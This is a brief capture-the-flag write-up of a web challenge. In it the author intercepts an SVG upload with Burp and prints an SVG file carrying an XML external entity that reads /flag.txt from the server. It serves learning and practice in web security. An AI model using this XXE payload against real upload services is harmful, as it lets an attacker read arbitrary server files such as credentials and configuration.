# SVG Text Extractor

### Category: Web
__________________________

![Alt text](Images/SVG%201.png)
I googled “svg vulnerabilities” and found that if you embed an xml script in a svg file it will execute. 

I intercepted an upload on an innocuous svg with burp and sent the request to a repeater to edit it. 
In a test, I uploaded an svg file that had embedded text in it and saw the text was displayed on the response, indicating it may also be open to a reflection attack! 
![Alt text](Images/SVG%202.png)

I looked up how to reference other files in a directory with xml and embedded a script in my svg as the “text” to be read.

~~~
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd"
[ <!ENTITY vuln SYSTEM "/flag.txt"> ]>
<svg width="96%" height="96%" viewBox="0 0 100 100" xmlns="http://www.w3.org/2000/svg">
<text x="20" y="20">&vuln;</text>
</svg>
~~~

It worked and I got the flag.
![Alt text](Images/SVG%203.png)

